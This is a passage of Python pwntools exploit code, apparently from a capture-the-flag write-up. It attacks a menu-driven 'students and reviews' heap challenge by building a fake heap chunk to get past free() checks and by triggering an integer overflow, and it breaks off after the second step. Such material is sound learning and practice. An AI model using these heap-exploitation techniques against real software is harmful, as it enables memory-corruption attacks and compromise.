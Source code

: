```python
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'4')
	io.sendlineafter(b'which student id to choose?', str(sid).encode())
	students[sid] = 2
	reviews[sid] = None
	student_num -= 1

def change_role(role):
	global current_role
	io.sendlineafter(b'choice>> ', b'5')
	io.sendlineafter(b'role: <0.teacher/1.student>: ', str(role).encode())
	current_role = role

def check_review(address, offset=True):
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'2')
	if io.recv(4) == b'Good':
		c = chunk_addr[current_sid] = int(io.recvuntil(b'add', drop=True)[-13:].decode(), 16)
		chunk_addr[current_sid] -= 0x10		# get the address of chunk head instead of writable head
		io.sendlineafter(b'wherever you want! addr: ', str((c + address) * 10).encode())

def pray():
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'3')

def change_sid(sid):
	global current_sid
	assert(current_role == 1 and students[sid] != 0)
	io.sendlineafter(b'choice>> ', b'6')
	io.sendlineafter(b'input your id: ', str(sid).encode())
	current_sid = sid

def print_status():
	print('students: ', end='')
	print(students)
	print('reviews: ', end='')
	print(reviews)
	print('chunk_addr: ', end='')
	print(chunk_addr)
	print('scores: ', end='')
	print(scores)
	print('current_role: ' + str(current_role))

io.sendlineafter(b'role: <0.teacher/1.student>: ', b'0')
for i in range(7):
	add_student(1)

change_role(0)
write_review(5, 0xF0, 'deadbeef')
write_review(6, 1024-16, 'deadbeef')

### Step 1: construct a fake chunk to bypass the check for free() of student 6
write_review(4, 0x200, b'a' * 0xF0 + p64(0x500) + p64(0x21) + p64(0) * 3 + p64(0x21), True)

### Step 2: give student 4 reward to change the chunk address of student 5 to that of student 6
change_role(1)
change_sid(4)
pray()

change_role(0)
give_score()	# int overflow

```